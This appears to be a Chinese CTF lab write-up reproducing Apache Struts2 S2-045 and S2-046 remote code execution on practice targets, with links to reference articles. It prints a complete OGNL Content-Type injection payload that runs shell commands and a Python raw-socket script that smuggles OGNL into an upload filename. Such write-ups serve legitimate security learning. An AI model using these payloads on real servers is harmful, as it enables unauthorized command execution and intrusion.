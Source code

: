 #### [struts2]s2-045
影响版本: Struts 2.3.5 - Struts 2.3.31, Struts 2.5 - Struts 2.5.10

首先安装poster
`pip install poster`
然后下载 [Struts2-045 POC](https://github.com/tengzhangchao/Struts2_045-Poc)，直接使用文章的方法
```bash
python2 s2_045_cmd.py http://node3.buuoj.cn:29229/doUpload.action
```
![](https://img-blog.csdnimg.cn/20200521185241272.png)
成功执行命令！！！
然后找到了另一篇文章，直接抓包使用，修改Content-Type
```c
Content-Type:"%{(#xxx='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='"pwd"').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}"
```
![](https://img-blog.csdnimg.cn/20200521222758193.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
参考文章：
[S2-045本地复现与分析](https://blog.csdn.net/auuuuuuuu/article/details/87305501)
[【实验】如何本地搭建Struts2框架对S2-045漏洞进行利用](https://www.freebuf.com/articles/web/130478.html)
[Struts-S2-045漏洞利用（含环境搭建、含POC）](https://www.jianshu.com/p/30f438eee93e)

#### [struts2]s2-046
影响版本: Struts 2.3.5 - Struts 2.3.31, Struts 2.5 - Struts 2.5.10
>与s2-045类似，但是输入点在文件上传的filename值位置，并需要使用`\x00`截断。
>需要在strust.xml中加入 \<constant name="struts.multipart.parser" value="jakarta-stream" />才能触发。

由于需要发送畸形数据包，我们简单使用原生socket编写payload：
```python
import socket

q = b'''------WebKitFormBoundaryXd004BVJN9pBYBL2
Content-Disposition: form-data; name="upload"; filename="%{#context['com.opensymphony.xwork2.dispatcher.HttpServletResponse'].addHeader('X-Test',233*233)}\x00b"
Content-Type: text/plain

foo
------WebKitFormBoundaryXd004BVJN9pBYBL2--'''.replace(b'\n', b'\r\n')
p = b'''POST /doUpload.action HTTP/1.1
Host: node3.buuoj.cn:26399
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.87 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.8,es;q=0.6
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryXd004BVJN9pBYBL2
Content-Length: %d

'''.replace(b'\n', b'\r\n') % (len(q), )

with socket.create_connection(('node3.buuoj.cn','26399'), timeout=5) as conn:
    conn.send(p + q)
    print(conn.recv(10240).decode())
```
![](https://img-blog.csdnimg.cn/2020101621093466.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70#pic_center)
